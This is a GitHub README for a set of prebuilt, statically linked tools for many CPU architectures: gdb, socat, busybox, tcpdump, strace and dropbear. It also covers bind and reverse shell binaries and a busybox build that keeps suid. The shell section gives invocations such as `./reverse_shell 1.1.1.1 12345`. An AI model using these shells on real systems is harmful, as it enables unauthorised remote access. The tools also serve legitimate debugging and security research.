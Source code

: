 # prebuilt-multiarch-bin

prebuilt binaries for multiple architeture (arm, armeb, aarch64, aarch64_be, mips, mips1, mipsel, mipsel1, mips64, mips64el, powerpc, powerpc64, powerpc64le, riscv64, i586, x86_64)

all binaries are statically linked and stripped

Please go to the [Release](https://github.com/leommxj/prebuilt-multiarch-bin/releases) page for download. `*archName*_tools.zip` contains tools' binary (see Tools Section) for that specific arch, and `allinone.zip` contains all of it.

## Buildroot

* MIPS-I and MIPSEL-I are using `buildroot 2014.11` because they remove the support after that version
* others are using `buildroot 2019.11.1`
* compiled toolchain can be found at action's artifacts page (mips1/mipsel1 are file package from `output/host`, others are from `make sdk`)

## Tools

- gdb (mips1/mips1el are using `gdb 7.12.1`, others are `8.3.1`)
- socat
- busybox (And busybox_nodrop is the one replace all BB_SUID_DROP with BB_SUID_MAYBE, which means it will not drop suid in applets)
- bind/reverse shell
- bind/reverse shell .so library (barely tested)
- tcpdump
- strace
- dropbear(mips1/mips1el are not static link `:(` )
- lsof

## Bind/Reverse Shell binary

* run the bind shell without arguments like `./bind_shell` will listening on the port 3343 and `./bind_shell 6666` will listen on 6666.
* run the reverse shell binary without arguments will connect to 127.0.0.1:3343 , one could use a hex editor the change cstring cotains the ip/port. or `./reverse_shell 1.1.1.1 12345` will connect to 1.1.1.1:12345; `./reverse_shell 1.1.1.1` will connect to 1.1.1.1:3343

## gdb (*Important*)

- gdbserver is compiled without libthread_db
- gdb need libthread_db.so.1 to support multithread debug, if you run into SIGSEGV when `r` the program, run `set libthread-db-search-path 0` in gdb first, then there will be warning about libthread_db.so.1, just ignore it.

## Github Actions

the config file for buildroot and github actions' workflow file are in the `src` branch

## Changelog
* 20220514 - change to use release, old way can be found in `master_deprecated` branch
* 20230217 - fix gdb build on x86_64
